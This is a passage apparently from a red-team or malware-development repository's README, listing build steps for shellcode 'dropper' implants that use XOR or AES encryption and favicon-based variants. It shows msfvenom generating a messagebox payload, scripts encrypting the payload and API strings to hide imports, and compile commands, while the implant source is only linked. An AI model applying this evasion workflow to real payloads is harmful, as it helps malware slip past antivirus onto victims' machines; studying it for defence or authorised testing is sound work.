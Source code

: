 #### Compile implant.cpp
- Set the `k2` variable with the key
- [Example code](projects/Dropper_XOR_Favicon_Notepad/implant.cpp)
```
compile.bat
```

### Dropper AES Favicon
- [Example code](projects/Dropper_AES_Favicon_Notepad/implant.cpp)

#### Generate messagebox
```
msfvenom -p windows/x64/messagebox TEXT="0xjs" -o msgbox64.bin
```

#### AES encrypt messagebox
```
python.exe .\aesencryptfile.py .\msgbox64.bin
```

#### AES encrypt function calls / strings
```
python.exe .\aesencryptstring.py
```

#### Compile implant.cpp
- Set the `pkey` variable with the payload key and `k` variable with the encrypted function calls/strings key
- [Example code](projects/Dropper_AES_Favicon_Notepad/implant.cpp)
```
compile.bat
```

### Dropper AES Favicon no imports
- Had to use `GetUserName`, with no imports `pCryptReleaseContext` didn't work. Rather had that API call then the AES one.

#### Generate messagebox
```
msfvenom -p windows/x64/messagebox TEXT="0xjs" -o msgbox64.bin
```

#### AES encrypt messagebox
```
python.exe .\aesencryptfile.py .\msgbox64.bin
```

#### AES encrypt function calls / strings
```
python.exe .\aesencryptstring.py
```

#### Compile implant.cpp
- Set the `pkey` variable with the payload key and `k` variable with the encrypted function calls/strings key
- [Example code](projects/Dropper_AES_Favicon_Explorer_NoImports/implant.cpp)
```
compile.bat
```
